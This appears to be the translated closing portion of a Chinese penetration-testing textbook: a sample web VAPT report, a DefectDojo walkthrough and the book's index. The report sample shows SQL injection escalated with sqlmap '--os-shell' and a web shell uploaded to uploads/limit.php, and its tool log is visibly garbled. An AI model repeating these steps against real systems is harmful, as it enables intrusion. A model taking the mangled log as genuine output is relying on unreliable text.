web 应用程序技术: PHP 5.6.30, PEP 1.5.3

[02:57:02] [INFO] 尝试使用后端进行命令提示符

[02:57:05] [INFO] 建立数据库连接

[02:57:07] [INFO] 后端 DBMS 操作系统是 Windows

服务器使用的是什么种应用程序语言？

- php

- c

do not want

你想确认此操作吗：删除所有文件？(y/n)

no, I do not want :
```

```
[02:57:08] [INFO] 获取了 Web 服务器文档
[02:57:09] [INFO] 文件已成功上传为: ~limit
[02:57:10] [INFO] 文件已成功上传到: http://192.168.25.28/uploads/limit.php
[02:57:11] [INFO] 文件已成功上传到: http://192.168.25.28/uploads/limit.php
[02:57:12] [INFO] 文件已成功上传到: http://192.168.25.28/uploads/limit.php
```

```
echo what

不想获取命令输出结果吗？[y/n]

命令标准输出

结果值不为空。

序列号为 EAA-IEC

C:\computers 目录

05-26-2023  12:46  <DIR>  <DIR>>

| 05-26-2023  12:47 | 1.4 KB | applications.txt |

| 05-26-2023  12:48 | 117 B | -csv |

| 05-26-2023  12:49 | 44 KB | php |

| 05-26-2023  12:50 | <DIR> | root |

| 05-26-2023  12:51 | | Dashboard |
```


## 复现步骤

1. 首先，我们在输入参数中添加了字符（例如单引号 `''`），结果导致了 `SQL` 错误。

2. 我们使用 `SQL Map` 利用了该漏洞。

3. 我们在 `SQL Map` 命令中使用 `"--dbs"` 来列出所有数据库。

机密

图 10.17: Web VAPT 报告编写示例

图 10.18 显示了 `CVE`/`CWE` 条目、影响、修复步骤和参考文献，呈现如下：

4. 为了获得 `OS` shell，我们在 `SQL Map` 命令中添加了 `"--os-shell"`。

### CVE/CWE

### 影响

### 修复

### 参考文献

## 修复措施

- 为了降低风险，请及时对受影响的系统进行修复，以防止可能的利用。

- 此外，如果不需要，考虑禁用 `SMBv1` 作为增强安全的额外措施。

## 参考文献

- `https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2017/ms17-010`

图 10.21：网络 VAPT 报告编写示例

与 `Web` 应用和网络报告示例一样，以下评估也可以遵循类似的结构：

- 移动端 `VAPT`

- 无线 `VAPT`

- `API` 渗透测试

- 安全代码审计

- 安全配置审查等。

## 使用 DefectDojo 进行自动化漏洞管理

漏洞管理（`VM`）对于保护机构的数字资产至关重要，它可以在维护发现记录、确定优先级和跟踪补丁状态的同时，确保了问责制。在本次讨论中，我们将使用开源平台 `DefectDojo` 探索自动化漏洞管理。

`DefectDojo` 是一个安全编排和漏洞管理平台。它有助于应用程序安全程序管理、跟踪产品和应用程序详情、评估漏洞，并与 `JIRA` 和 `Slack` 集成。该平台使用启发式算法精炼漏洞数据，这些算法会随着使用不断改进。你可以从以下链接下载并安装 `DefectDojo`：`https://github.com/DefectDojo/django-DefectDojo`。

以下是 `DefectDojo` 的优势：

- 集中漏洞管理：`DefectDojo` 提供了一个中心平台，用于管理和跟踪跨应用程序和基础设施组件的漏洞。

- 无缝漏洞扫描集成：该平台可以轻松集成各种漏洞扫描工具，自动导入并分析扫描结果。

- 改进风险评估：`DefectDojo` 根据严重性、影响可用性对漏洞进行风险评分，优先处理关键问题。

- 高效报告和指标：自定义的报告和指标有助于理解安全状况、识别趋势并做出明智决策。

- 增强协作与通信：与 `JIRA` 和 `Slack` 等工具集成促进了安全团队、开发人员和利益者之间的良好协作。

- 历史跟踪和趋势分析：平台维护漏洞的历史记录，能够进行趋势分析并持续改进安全。

`DefectDojo` 拥有直观且友好的界面，使安全专业人员和开发者能够访问并操作。现在，让我们深入研究 `DefectDojo` 的一些关键功能：


- **仪表板（Dashboard）**：`DefectDojo` 中的自定义仪表板展示了关键指标、图表和图形，提供了漏洞、风险趋势和整体安全进展的快速概述。用户可以监控正在进行的活动、风险接受、关键发现和其他相关的安全数据，如图 10.22 所示：


图 10.22：`DefectDojo` 仪表板

- **添加活动（Add Engagement）**：通过“添加活动”，用户可以创建和管理安全活动，这些活动代表特定的项目或测试活动。用户可以包含名称、开始和结束日期、描述等基本细节，简化了各种安全倡议的组织和跟踪，如图 10.23 所示：


图 10.23：添加活动

- **添加新发现（Add new finding）**：此功能允许用户向活动中添加新发现。要执行此操作，导航到 活动（Engagements)|活动活动（Active Engagements），选择特定活动，点击发现（Findings），然后点击添加新发现（Add New Finding），如图 10.24 所示：


图 10.24：添加新发现

- **风险接受（Risk acceptance）**：风险接受在漏洞管理中起着至关重要的作用。`DefectDojo` 的风险接受功能简化了根据特定标准（如业务影响、补偿性控制或风险容忍度）审查和接受漏洞的过程，如图 10.25 所示：


图 10.25：风险接受

## 指标仪表板

`DefectDojo` 中的仪表板提供了各种指标的概述，包括开放漏洞、按月接受的风险以及给定期间的发现总量，并按严重程度分类。这种视觉化表示位于图 10.26 中，为组织的漏洞格局和安全趋势提供了宝贵的见解（由于页面过长，无法在单个快照中显示所有信息）：2023 年 7 月 12 日 - 2023 年 7 月 21 日的指标


图 10.26：指标仪表板

注意：此外，`DefectDojo` 还提供了各种功能，包括支持定义服务水平协议（`SLA`）以管理漏洞修复时间。有了 `SLA`，安全团队可以确保及时解决漏洞并保持与内部或外部标准的符合性。开发 `DefectDojo` 工具的功劳归于创建它的专业人士。

## 结论

在本章中，我们深入研究了报告编写这一关键艺术，这对于全面评估至关重要。我们探索了各个方面，例如优秀报告的组成部分、利用 `CVSS` 评分以及用于有效排序的风险评估。我们还涵盖了不同类型的安全评估，并提供了 Web 应用和网络 `VAPT` 的详细报告示例。此外，我们学习了使用 `DefectDojo` 进行自动化漏洞管理的益处。到本章结束时，你应该已经在创建有影响力的且标准化的报告、有效沟通发现以及增强整体评估流程方面获得了宝贵的见解。通过本书书中对 `VAPT` 方法、工具集、技术和报告的深入，你现在具备了进行成功评估的知识，并成为一名熟练的渗透测试员或网络安全领域的高需求专家（`SME`）。

加入我们书籍的 Discord 获取最新更新、优惠和与作者的新互动：`https://discord.com`


## 索引

### A

- `AAAA` 记录 65
- 地址 (`Address`) 65
- 接入点 (`APs`) 216
- 活动目录 (`AD`) 网络 257
- 主动侦察 (`active reconnaissance`) 62
- 主动侦察工具和战术
- 目录枚举 (`directory enumeration`) 83, 84
- 硬编码信息 (`hard-coded information`) 84, 85
- 主机发现 (`host discovery`) 76, 77
- `ND ping` 78
- `OS` 指纹识别 (`OS fingerprinting`) 82
- 端口扫描 (`port scanning`) 79
- 服务和版本检测 (`services and version detection`) 81
- 地址解析协议 (`ARP`) 78
- 高级渗透技术 4, 5
- 高级无线攻击 218
- 安全控制的进展
- 云端特定的安全控制 264
- 使用 `Reaver` 的路由器 218
- 尖端技术 263
- 智能系统 264
- 威胁格局演变 264
- `ncrack` 201
- 恶意软件扫描接口 (`AMSI`) 触发 273
- 杀毒软件规逸技术 277, 278
- 杀毒软件规逸工具 278
- 自定义二进制文件 280
- 壳式规逸 299-302
- `Metasploit` 模板 279-289
- `Shelter` 290-293
- 独角兽 294-296
- 应用程序安全 126
- 应用程序特定的漏洞
- 后门，通过不受限制上传 184-186
- 破坏身份验证 174-176
- 暴力破解登录攻击 171-174
- `AppSec` 126
- `Armitage` 147
- 设置 148, 149
- 使用 150-152
- 用于利用 147, 348
- 使用 `DefectDojo` 进行自动化漏洞管理 349
- 辅助模块 140

### B

- 后门 184
- 通过不受限制上传 184-186
- 破坏身份验证 174-176
- 暴力破解登录攻击 171-174
- 漏洞 Web 应用 (`BWAPP`) 54, 164
- 在 `Windows VM` 上设置 54-56
- `Burp suite` 100
- 身份验证扫描 102
- 配置 101
- 启动 101
- 结果分析 103
- 启动扫描 102
- 业务逻辑漏洞 189-193
- 绕过安全控制
- 意义 262, 263

### C

- 互联网安全中心 (`CIS`) 15, 264
- 云控制矩阵 (`CCM`) 264
- 云安全联盟 (`CSA`) 264
- 云端特定的安全控制
- 云安全矩阵 (`CSM`) 264
- 云安全态管理 (`CSPM`) 264
- `CNAME`（规范别名）记录 65
- 常见漏洞与暴露 (`CVE`) 96, 120
- 常见漏洞评分系统 (`CVSS`) 11, 336
- 常见弱性枚举 (`CWE`) 96
- `containers` 120
- `CrackStation` 232, 233
- 关键信息基础设施 (`CII`) 15
- 跨站脚本 (`XSS`) 179
- 客户成功管理 23
- 客户成功策略
- 客户反馈 24
- 知识共享 23
- 长期关系 24
- 个性化关注 23
- 评估后支持 23, 24
- 主动沟通 23
- 端技术，安全控制
- `AI` 驱动的威胁情报 263
- 基于行为的异常检测 263
- 下代防火墙 263
- 端 `WAF` 规避策略 302-306
- 网络安全评估报告
- 详细技术评估报告 341
- 执行摘要报告 340, 341
- 网络安全实践，安全控制
- 使用机器学习的高级恶意软件检测 264
- 零信任架构 264

# D

- 数据泄露防护 (`DLP`) 262
- `DefectDojo` 349
    - 优势 349
    - 特性 349-351
    - 用于自动化漏洞管理 345
- `Dehashed` 76
- 拒绝服务 (`DoS`) 攻击 196
    - 详细技术评估报告 341
    - 目录枚举 83, 84
- `Docker`
    - 自启动，启用 121
    - 镜像，列出 121
    - 安装 121
    - 报告，转换 124
    - 报告，生成 124
    - 扫描，分析 123
    - 扫描，运行 122
    - 不可的漏洞，忽略 122
    - 漏洞镜像，拉取 121
- 文档对象模型 (`DOM`) 179
- 域名系统 (`DNS`) 侦察 65
    - 利用 65-68
- 动态应用程序安全测试 (`DAST`) 126

# E

- `EmailHarvester` 74
- 编码 235
- 加密 235
- 哈希专家必备工具
    - `hashcat` 230, 231
    - `hash-identifier` 227, 228
    - `John the Ripper` 228-230
    - `John the Ripper Jumbo` 230
- 执行摘要报告 340, 341
- 利用
    - 使用 `Armitage` 147, 148
    - 漏洞模块 141

# F

- `FIN` 扫描 81
- 完全不可检测 (`FUD`) 4, 270

# G

- 甘特图 21
- 通用可扩展模板 (`GET`) 参数 164
- `Gophish` 310
    - 设置 310-315
- 图形处理器 (`GPUs`) 230

# H

- 哈希算法 223
    - 消息摘要算法 5 (`MD5`) 223
    - 安全哈希算法 1 (`SHA-1`) 223
    - 安全哈希算法 256-位 (`SHA-256`) 223
    - `hashcat` 230, 231
    - 哈希破解 227
    - 哈希战士必备工具 227
    - 哈希破解技术 226
    - 策略方法 226, 227
- 哈希
    - 使用 233, 234
    - 哈希函数
        - 探索 222
        - 属性 223
    - `hash-identifier` 227, 228
    - 哈希处理 235
    - 哈希值 223
- `Have I Been Pwned` 76
- `HoaxShell` 274
- 主机发现 76, 77
    - `ICMP ping` 类型 78
    - `IP` 协议 `ping` 78
    - 列表扫描 77
    - 无 `ARP` 78
    - 无 `ping` 扫描 77
    - 无端口扫描 77
    - `SCTP INIT` 78
    - `TCP ACK ping` 78
    - `TCP SYN ping` 78
    - `UDP ping` 78
- `HTTP` 参数污染 187-189

# I

- 工业级方法和方法论；`VAPT`
    - 活跃情报 9
    - 自动化 `VA` 扫描 10
    - 目标和目的 7
    - 情报收集 8
    - 启动会议 8
    - 手动 `VA` 扫描 10
    - 被动情报 8
    - 渗透测试 10
    - 渗透后 10, 11
    - 报告 11
    - 威胁建模 9
    - 漏洞评估 9
- 信息通信技术 (`ICT`) 6
    - 信息安全管理体系 (`ISMS`) 14
- 基础设施即代码 (`IaC`) 120
- 不安全直接对象引用 (`IDOR`) 177, 178
- 安全与方法学院 (`ISE`)
    - 智能系统，安全控制 264
    - 自动化与编排 264
    - 机器学习与人工智能 264
- 互联网控制消息报协议 (`ICMP`) 78
- 物联网 (`IoT`) 16
- 互联网网协议 (`IP`) 78
- 入侵检测系统 (`IDS`) 262
- `Invoke-Stealth` 使用 299-301
- `IP` 侦察 68, 69
- `ISA` 15
- `ISO 2701` 标准 14

# J

- `John the Ripper` 228-230
- `John the Ripper Jumbo` 230

# K

- `Kali Linux` 28, 197
    - 附加应用 42
    - 无线攻击配置 203
    - 无线渗透配置 202, 203
    - 桌面环境，更改 41, 42
    - 特性 28, 29
    - 在 `VirtualBox` 安装 35-37
    - 在 `VMware` 安装 31-34
    - 登录界面，更改 43
    - 刷新 44
    - 系统设置，修改 42
    - 更新 44, 45
    - `Kali Linux 202.2`
        - 部署 30, 31
        - 网络服务，安排 37-39
        - `ProxyChains`，设置 39, 40
- 密钥扩展 225
- `Kismet` 201
- 横向移动 236
- `Legion`
    - 安装 109
    - 启动 109
    - 结果，分析 111
    - 配置 109
    - 发起 110
- `Linux` 密码哈希 225
    - `scrypt` 225

# L

- `MD5` 225
- `SHA-1` 225
- `SHA-256` 225
- 负载均衡器 (`LB`) 162
    - 检测 163

# M

- `Maltego` 85, 86
    - `IP` 地址，收集 86
    - 特定人员信息，收集 87
    - 特定电话号码，收集 88
- 中人攻击 (`MITM`) 196, 198
- 手动利用 146, 147
- 介质控制 (`MAC`) 78
- 消息摘要算法 5 (`MD5`) 223
- 消息摘要 223
- `Metasploit` 131, 132
    - 自动化 138, 139
    - 数据库和工作区管理 132-134
    - `NMAP` 扫描，集成 135-138
- `Metasploitable2` 52
    - 设置 53, 54
- `Mimikatz`
    - 与 `meterpreter` 集成 257-259
- `MITRE ATT&CK` 框架 16
- 移动应用漏洞扫描 115, 116
- 容器 120
- `MobSF` 116, 117
- 移动安全框架 (`MobSF`) 45, 46, 116
    - 移动应用，上传 117
    - `MobSF Score` 119
    - 打开 116
    - 报告生成 118
    - 结果，分析 118
    - 在 `Kali Linux` 上运行 46-34
    - 在 `Kali Linux` 上设置 49
    - 静态分析 116
    - `MobSF` 容器 50
    - `MobSF Docker` 镜像 49
    - `MobSF Web` 界面 50
- `MX` 记录（邮件交换） 65
- `My Traceroute (MTR)` 73

# N

- 美国标准与技术学院 (`NIST`) 264
- 邻居发现 (`ND`) 78
- `Nessus` 104, 105
    - 安装 105
    - 扫描扫描 106
    - 启动扫描 107
    - 扫描结果，分析 108
    - 扫描设置，自定义 106
    - 目标 `IP` 地址，指定 107
    - 用户账户，创建 105
    - 使用 105
- `NetStumber` 201
- 网络测试 130, 131
- 网络渗透
    - 利用 `Metasploit` 机器 250
    - 探索 246, 247
    - 初始访问到 `Windows 7` 247, 248
    - 网络信息收集 248-250
    - 渗透连接建立 248-252
- 网络服务
    - 安排 37-39
- 网络 `VAPT` 报告
    - 编写 345-348
- 网络漏洞评估 389
- `Legion` 109
- `Nessus` 104
- `Nmap` 111
- `NIST` 网络安全框架 14
    - 功能 14
- `Nmap`
    - 输出 111
    - 扫描速度 112
    - 扫描计时 112
    - 目标，指定 112
    - 漏洞，进行 111
    - 与 `Metasploit` 集成 135-138
- `Nmap` 脚本引擎 (`NSE`) 111
- `NS`（名称服务器）65
- `Null` 扫描 81

# O

- 哈希专家在线工具 232, 233
- 哈希 233, 234
- 开源情报 (`OSINT`) 59
- 开放 Web 应用项目 (`OWASP`) 12
- 操作系统 (`OS`) 指纹识别 82
- 运营技术 (`OT`) 16
- `OSSTMM` 13
- `OWASP ZAP` 14

# P

- 被动侦察 62
- 被动情报策略 62
    - `DNS` 侦察 65-68
    - 电子邮件地址 74
    - `IP` 侦察 68, 69
    - 姓名和电话号码 75
    - 路由映射 72-74
    - `WHOIS` 63-65
- `Password Checkup` 76
- 尖端技术 225
    - `Linux` 密码哈希 225
    - 精通 224
    - 密码，安全 224
    - `Windows` 密码哈希 224
- `PathPing` 命令 73
- 渗透测试执行标准 (`PTES`) 13
- 渗透测试 (`PT`) 1, 4
- 渗透测试 (`PT`) 报告 333
- 人员、流程和技术 (`PPT`) 框架 1
- 持久化和横向移动 252
    - `RDP`，探索 255-257
    - 策略 252, 253
    - 通过 `hashdump` 技术 253, 254
- `Phantom` 规避 296
    - 使用 296-298
- 钓鱼 308
    - `Gophish` 310
    - 安全评估，进行 308, 309
- `PHP` 代码执行 169, 170
- `ping` 73
- 端口扫描 79
    - `FIN` 扫描 81
    - `Null` 扫描 81
    - 隐身扫描（半开放扫描） 80
    - `TCP` 扫描 80
    - 技术 79, 80
    - `UDP` 扫描 80
    - `Xmas` 扫描 81
- 渗透后 235, 236
- 渗透后模块 141-145
- 预前与客户交互 16
    - 方法和方法论选择 18
    - 审计范围，定义 16
    - 交付物 19
    - 接入规则 19
    - 环境选择 18
    - 练习性质 17
    - 练习时间选择 18
    - 项目时间线 19
    - 测试方法 17
    - `Linux` 提升 236
    - 初始访问 237
    - 准备，利用 `Udev` 漏洞 237-239
    - 权限提升 239-241
    - `Windows` 提升 241
    - 初始访问 242-244
    - 准备，绕过 `UAC` 244
    - 权限提升 245, 246
- 进程空空 290
- 进程标识符 (`PID`) 240
- 项目治理，`VAPT` 23
- 项目管理办公室 (`PMO`) 22
- 项目管理，`VAPT` 21, 22
- 项目计划，`VAPT` 20, 21
- `ProxyChains`
    - 启用 39
    - 设置，在 `Kali Linux 2023.2` 39, 40
    - 用例 41

# R

- `RACI` 矩阵 8
- 射频 (`RF`) 198
- `Reaver` 201
- 侦察 60
    - 主动侦察 62
    - 额外资源 85
    - 重要性 61
    - 被动侦察 62
    - 战术 61
    - 类型 61
- 远程桌面协议 (`RDP`) 255
- 报告 11
    - 详细技术报告 11
    - 安全态，执行摘要 11
    - 漏洞管理跟踪器 12
- 报告编写
    - 概述 318
    - 报告，在综合评估中的整合 319
    - 意义，网络安全 318, 319
- 反向 `IP` 查询搜索 69
- 风险评估与优先级排序 334
- 风险量化 334, 335
- 路由映射 72
    - 执行 73


## S

- 加盐 (salting) `225`
- 工作范围 (SOW) `19`
- 设计，针对安全审计 `19, 20`
- 安全哈希算法 1 (SHA-1) `223`
- 安全哈希算法 256-位 (SHA-256) `223`
- 安全审计标准和框架
- 最佳实践 `12`
- `CIS` 基准 `15`
- `CWE/SANS` 前25 强 `12, 13`
- `ISACA` 标准和指南 `15`
- `ISO 27001` 标准 `14, 15`
- `MITRE` 框架 `16`
- `NIST` 网络安全框架 `14`
- 开源 Web 应用安全项目 (OWASP) `12`
- `OSTMM` `13`
- 渗透测试执行标准 (PTES) `13`
- 网络安全控制绕过 `265`
- 自定义数据包创建 `267, 268`
- `IP` 地址欺骗/欺骗 `IP` `266`
- `MAC` 地址欺骗 `267`
- `Nmap` 脚本引擎 (NSE) 脚本 `269`
- 数据包分片 `266`
- 源端口操纵 `265`
- 进展 `263`
- 安全运营中心 (SOC) `16`
- 服务器消息块 (SMB) 协议 `247`
- `Shellter` `290`
- 启动 `290, 291`
- `Shodan` `70`
- 使用 `70-72`
- 社会工程战术 `306, 307`
- 钓鱼模拟 `308`
- 软件开发生命周期 (SDLC) `18`
- `SPARTA` `88-90`
- `SpyCloud` `76`
- `SQL` 注入 `164`
- 带内盲 `SQL` 注入 `164`
- 带外 `SQL` 注入 `164`
- 静态应用安全测试 (SAST) `126`
- 隐蔽扫描（半开放） `80`
- 策略方法，哈希破解
- 暴力破解 `226`
- 字典攻击 `226`
- 混合攻击 `226`
- 彩虹表攻击 `227`
- 基于规则的攻击 `227`
- 流控制传输协议 (SCTP) `INIT` 数据包 `78`
- `SYN` 扫描 `80`
- 系统管理员审计、网络与安全 (SANS) 学院 `12`

## T

- 战术、技术与程序 (TTPs) `16`
- `TCP` 扫描 `80`
- 测试方法，VAPT `17`
- 黑盒 `17`
- 灰盒 `18`
- 白盒 `18`
- 第三方 VAPT 启用 `45`
- `MobSF` `46-50`
- `Trivy` `51, 52`
- 威胁建模 `159`
- 资产，识别 `159`
- 缓解策略，制定 `160`
- 潜在威胁，识别 `159`
- 风险，分析 `160`
- Web，测试 `160`
- `traceroute` 命令 `73`
- `traceroute own` `73`
- `Trivy` `51, 120`
- 设置 `51, 52`
- `TXT` 记录 `65`

## U

- `UDP` 扫描 `80`
- `Unicorn` `294`
- 使用 `294-296`
- 用户账户控制 (UAC) `244`
- 用户数据报协议 (UDP) 数据包 `78`

## V

- VAPT 实验室 `27`
- VAPT 报告
- 附件-1 `329`
- 附件-2 `330-332`
- 组件 `319, 320`
- 页 `320`
- 详细报告 `327, 328`
- 详细报告，示例 `344`
- 参与详情 `323, 324`
- 执行摘要 `324-326`
- 网络 VAPT 报告 `345-348`
- 按严重程度分布漏洞 `326`
- 目录 `322, 323`
- 版本控制 `321`
- Web 应用 VAPT 报告 `342-344`
- 非常安全的 FTP 守护进程 (VSFTPD) 后门 `251`
- `VirtualBox`
- `Kali Linux`，安装 `35-37`
- 建立虚拟化格局 `30`
- 使用，在 VAPT 中 `30`
- 减少 `VirusTotal` 检测结果 `281-289`
- `VMware workstation`
- `Kali Linux`，安装 `31-34`
- 漏洞评估 `3, 97`
- 基于应用的漏洞扫描 `95`
- 计算机网络 `104`
- 数据库漏洞扫描 `95`
- 基于主机的漏洞扫描 `95`
- 移动应用 `115, 116`
- 网络漏洞扫描 `95`
- 概述 `94`
- Web 应用 `97`
- 漏洞
- 漏洞评估与渗透测试 (VAPT) `1`
- 收益 `6`
- 业务与合规性 `6`
- 客户成功 `24`
- 交付与客户成功战术 `23`
- 基础 `7`
- 项目治理 `23`
- 项目管理 `21`
- 项目规划 `20, 21`
- 漏洞评估报告 `333`
- 漏洞管理 `124, 125`
- 漏洞管理 (VM) 周期 `96`
- 漏洞管理 (VM) 跟踪器 `341`
- 漏洞术语 `96`
- 漏洞优先级评分 (VPR) 矩阵 `334`
- 漏洞机器和应用程序
- Buggy Web 应用 (BWAPP) `54-56`
- `Metasitable` `2`
- 设置 `52`

## W

- `WAF` 绕过技术 `302`
- 情况管理 `303`
- 注释与空白符技巧 `304, 305`
- 动态负载生成 `305`
- `HTML` 编码 `304`
- 混合编码 `304`
- 负载分片 `305`
- 制表符和换行 `306`
- `Unicode` 转换 `304`
- 未初始化变量利用 `305`
- `URL` 编码 `304`
- Web 应用防火墙 (WAF) `162, 262`
- 探测 `262`
- Web 渗透测试 `156, 157`
- 攻击向量 `158`
- 脑图 `160-162`
- `OWASP` 前10 `158`
- 威胁建模 `159, 160`
- Web 应用 VAPT 报告 `342-344`
- Web 漏洞评估 `97`
- `Burp Suite` `100-103`
- `OWASP` 攻击代理 (ZAP) `98-100`
- `WHOIS` 命令 `63`
- `Windows Defender` `270`
- 检测，绕过 `270-277`
- `Windows` 密码哈希
- `Kerberos` `225`
- NT 语言管理器 (NTLM) `224`
- `NTLMv2` `225`
- `Windows` 虚拟机 (VM)
- `BWAPP`，设置 `54-56`
- 无线网络利用技术 `207`
- 拒绝服务攻击 `216, 217`
- 隐藏 `SSID`，绕过 `212, 213`
- `MAC` 和开放认证，通过钓骗接入点 `214, 215`
- 中人攻击，通过钓骗接入点 `211`
- `WPA/WPA` 加密，破解 `208-210`
- 无线网络基础 `197`
- 射频基础 `198`
- 无线网络拓扑和架构 `197`
- 无线网络和协议概述 `197`
- 无线渗透测试 `196, 197`
- 无线渗透测试方法论 `198`
- 方案 `199, 200`
- 步骤 `199`
- 无线渗透测试-ng `200`
- `Aircrack-ng` `201`
- `Kismet` `201`
- `NetStumber` `201`
- 概述 `201`
- `Reaver` `201`
- `Wireshark` `201`
- 无线安全威胁和标准 `198`
- 常见的无线安全威胁 `198`

## X

- `Xmas` 扫描 `81`

## XSS

- `DOM` 型 `XSS` `179`
- 射型 `XSS` `179`
- 存储型 `XSS` `179`
- `XSS` 验证器 `180`
